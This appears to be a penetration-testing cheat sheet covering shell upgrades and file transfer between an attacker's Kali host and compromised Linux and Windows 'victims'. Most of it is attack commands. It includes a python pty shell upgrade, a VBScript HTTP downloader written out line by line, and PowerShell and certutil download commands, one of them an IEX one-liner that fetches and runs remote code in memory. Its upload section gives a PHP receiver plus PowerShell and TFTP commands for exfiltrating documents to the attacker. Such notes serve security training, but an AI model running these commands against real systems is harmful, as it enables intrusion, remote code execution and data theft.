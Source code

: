# Upgrading a non-interactive shell

## Python
Most common method on Linux hosts, as there is usually a python interpreter installed.
````
python -c 'import pty;pty.spawn("/bin/bash")'
````


# File transfers 

## Downloads (from Kali to the victim)

### Linux targets

#### FTP
Install Pure-FTPd on Kali (sudo apt update && sudo apt install pure-ftpd.
Create a new user for Pure-FTPd (check how to on the net)

#### HTTP
Start a web server on Kali and download the file from the compromised machine

#### Socat
...

#### netcat

#### curl, wget


### Windows targets

#### FTP
We can use the FTP -s flag, which allows us to specify a text file containing FTP commands that will be executed automatically when FTP starts.
- Set up an FTP server on Kali 
- Place the file to transfer (in this example _nc.exe_) in /ftphome directory.
- On Windows, create a _ftp.txt_ file containing the commands to execute (transfer the file in binary mode):
  ````
  echo open <Kali IP> 21> ftp.txt
  echo USER <FTP username>>> ftp.txt
  echo <FTP password>>> ftp.txt
  echo bin >> ftp.txt
  echo GET nc.exe >> ftp.txt
  echo bye >> ftp.txt
  `````
- Download the file from Windows: 
  ```
  ftp -v -n -s:ftp.txt
  ````
  -v to suppress any returned output, -n to suppress automatic login, -s to specify the file
  
#### VBScript
We can issue the following commands into a remote shell to write out a _wget.vbs_ script that acts as a HTTP downloader:
`````
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
``````
We can then run this script from Windows to download a file on Kali:
````
cscript wget.vbs http://<Kali IP>/<File to download> <Name of the downloaded file>
`````


#### Powershell
Create a Powershell downloader script on the Windows machine:
````
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<Kali IP>/<File to download>" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
`````
Run this script on Windows:
````
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
````
The execution of ppowershell scripts is restricted by default, so we allow it with _-ExecutionPolicy Bypass_.

Alternative one-liner:
````
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<Kali IP>/<File to download>', '<Name of the downloaded file>')
````

Download without saving the file to disk:
````
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<Kali IP>/<File to download>')
````


#### Exe2hex and Powershell
Example to transfer nc.exe from Kali to Windows by executing the following steps:
- Compress the file with _upx_:
````
upx -9 nc.exe
````
- Convert the file to a Windows script (_.cmd_) with _exe2hex_:
```
exe2hex -x nc.exe -p nc.cmd
````

- Copy the script (we can copy it to the clipboard with _cat nc.cmd | xclip -selection clipboard_)

- Paste the script in the remote shell. This will automatically transfer the hex file on Windows and convert it back to binary (at the end of the script, there are commands which rebuild the _nc.exe_ executable on the target).



#### Certutil
Download a file from the internet:
````
certutil.exe -urlcache -split -f http://<Kali IP>/<File to download> <Name of the downloaded file>
certutil.exe -verifyctl -f -split http://<Kali IP>/<File to download> <Name of the downloaded file>
`````






## Uploads (from the victim to Kali)

Used to exfiltrate data.

### Windows targets

#### PowerShell

Complex because standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default. 
If outbound HTTP traffic is allowed, we can use the _System.Net.WebClient_ Powershell class.

Create the following PHP script on Kali and save it as _upload.php_ in the webroot directory (_/var/www/html_):

````
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
````

This code processes an incoming file upload request (POST) and save the transferred data to _/var/www/uploads/_. 
Before using it, we create the _uploads_ folder and grant the _www_data_ user ownership and write permissions (check status as well):

````
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
ls -al
````
Warning: this allows anyone interacting with _uploads.php_ to upload files on Kali.

Finally, from Windows, invoke the _UploadFile_ method from the _System.Net.WebClient_ class to upload the document we want to exfiltrate:

````
powershell (New-Object System.Net.WebClient).UploadFile('http://<Kali IP>/upload.php', '<Doc to exfil')
`````

#### TFTP 

TFTP is a UDP-based file transfer protocol.
Rarely works (often restricted by egress firewall rules), but can come handy in certain situation. 
For example, it can be used on older systems if PowerShell isn't installed.

- Install and configure a TFTP server on Kali:
  ````
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ````
- On Windows, run the TFTP client with _-i_ to specify a binary image transfer:
  ````
  tftp -i <Kali IP> put <Doc to exfil>
  ````








